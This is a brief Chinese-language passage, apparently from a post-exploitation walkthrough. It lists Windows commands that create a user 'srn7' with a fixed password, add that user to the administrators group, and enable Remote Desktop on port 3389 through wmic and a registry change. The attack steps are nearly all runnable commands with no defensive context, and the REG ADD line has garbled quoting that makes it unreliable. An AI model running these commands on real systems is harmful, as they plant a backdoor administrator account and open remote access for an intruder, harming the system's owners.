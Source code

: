 ### 添加用户：

```bash
net user srn7 P@ssword /add
# 添加用户
net localgroup administrators srn7 /add
# 将用户添加至管理员组
net user srn7
```

[![](assets/1701827767-533b3c24dc77a11bc60566ec4af2d646.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191335-d613f780-9103-1.png)

[![](assets/1701827767-0a80a23d22ba0b53196e67a73f966106.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231202191330-d2f95162-9103-1.png)

### 开启远程 3389 端口：

```bash
netstat -an 查看端口状态
```

```bash
wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1
wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1

'REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f'
```
